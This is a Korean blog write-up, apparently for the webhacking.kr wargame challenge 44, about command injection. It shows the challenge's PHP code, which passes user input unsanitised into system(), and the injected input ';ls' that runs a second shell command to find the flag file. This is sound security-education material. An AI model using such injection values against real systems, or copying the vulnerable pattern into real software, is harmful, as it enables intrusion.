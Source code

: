 ```yaml
---
title: "[webhacking.kr] 44번 문제 풀이[Command Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - command injection
toc: true
toc_sticky: true
toc_label: "44번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 44번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152749393-b116b08b-26e5-42e7-acee-068339b302e4.png)

  ```php
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
  ```


# 문제 풀이
  다음과 같이 입력해줍니다.

  ```md
  ';ls'
  ```

  를 입력하면 system 함수는 다음과같이 실행되어 bash에서 ls 명령어가 실행됩니다.

  ```bash
echo 'hello! ';ls''
  ```


  ![image](https://user-images.githubusercontent.com/33647663/152749953-81997ede-d705-4493-9344-4479bd94b7ef.png)

  flag 파일의 경로가 나왔으니 해당 파일을 접근해보면 플래그가 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152750009-3139fee1-3cd1-4b36-8551-3a80bd6db1c0.png)

